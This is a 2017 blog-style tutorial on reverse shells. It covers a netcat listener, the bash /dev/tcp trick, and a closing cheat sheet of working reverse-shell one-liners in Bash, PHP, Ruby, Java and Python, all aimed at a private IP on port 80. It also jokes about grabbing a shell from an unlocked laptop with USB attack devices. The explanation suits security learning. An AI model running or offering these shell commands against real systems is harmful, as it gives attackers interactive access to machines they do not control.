 ```yaml
---
layout: single
title: '2017-08-26, reverse shell'

---
```


# Whats a reverse shell? 
It’s that turtle that you jump on and it bounces off a wall and comes back at you right?
Not quite but, you aren’t alone in ignorance. It is surprising that the number of folks that don’t actually know what a reverse shell is. Long story short, it is when one computer connects to another computer but the initiating computer forwards their shell to the destination. It is commonplace that a reverse shell happens during an attack or as part of a pentest. They are scary attacks because it gives an attacker an interactive shell on a machine that they should not have had access to inside of the “hardened” area.
Lets break down how this works. 
First there is a machine listening somewhere on a specific tcp port. In this case using netcat. 
```
`nc -vlp 80`  vlp?  
-v, --verbose Set verbosity level (can be used several times);  
-l, --listen Bind and listen for incoming connections; 
-p, --source-port port Specify source port to use 
(http://man7.org/linux/man-pages/man1/ncat.1.html) 
```
Simple enough, just a listener on a specific port. Second, we will need another machine, the victim, to connect to this machine and then forward the session to it. There are countless ways to setup this connection depending what resources are available. This is how to do it with bash
```bash -i >& /dev/tcp/192.168.1.142/80 0>&1```
The command `bash -i >& `invokes bash with an "interactive" option. Then `/dev/tcp/192.168.1.142/7023` redirects that session to a tcp socket via device file. 
Finally `0>&1` Takes standard output, and connects it to standard input.
It turns out linux has built a /dev/tcp device file. While powerful and useful this file can be extremely dangerous when used in this way. This built in device file lets bash connect directly to any ip and any port out there. This also works well if you want to confirm a port is open, or check the time. 
```
$ echo > /dev/tcp/192.168.1.142/22 
-bash: connect: Connection refused. ( yey no ssh is open !)
$ echo > /dev/tcp/www.google.com/80
$ cat </dev/tcp/time.nist.gov/13
57991 17-08-26 13:39:06 50 0 0   0.0 UTC(NIST) 

http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip
```

What’s so scary about this? Well, netcat can be listening on any port, and in the example it listened on port 80. This means that the connection and all the traffic flowing through that pipe is going to look like regular http traffic and if that port is open on one of your hosts (as it usually is) then it doesn’t matter what kind of firewall you have, it isn’t going to stop a reverse shell from owning you. Subsequently it doesn’t stop a machine from inside your firewall that has access to the internet **cough**cough laptops, from using the allowable port, and then pivoting to anything that can be accessible on the internal lan.
Reverse shells are really fun to play with especially if you have something like a rubber ducky or a bash bunny. That lets you walk up to an unsecured laptop (that you have legitimate access to of course) and snag a shell. Then wait for your victim to come back and…
````
$ say “im sorry dave i can’t let you do that, you should have locked your computer"
$ sudo reboot
https://hakshop.com/products/bash-bunny
https://hakshop.com/products/usb-rubber-ducky-deluxe
```

Finally, here are examples of allowing a shell through in a whole bunch of different languages, because well not everything has bash, just most of the things. 
```
Bash
exec 5<>/dev/tcp/192.168.1.142/80
cat <&5 | while read line; do $line 2>&5 >&5; done 
# or:
while read line 0<&5; do $line 2>&5 >&5; done
PHP
php -r ‘$sock=fsockopen(“192.168.1.142”,80);exec(“/bin/sh -i <&3 >&3 2>&3”);’
(Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
RUBY
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.142”,80).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’
JAVA
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.142/80;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()
PYTHON
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.142”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet/
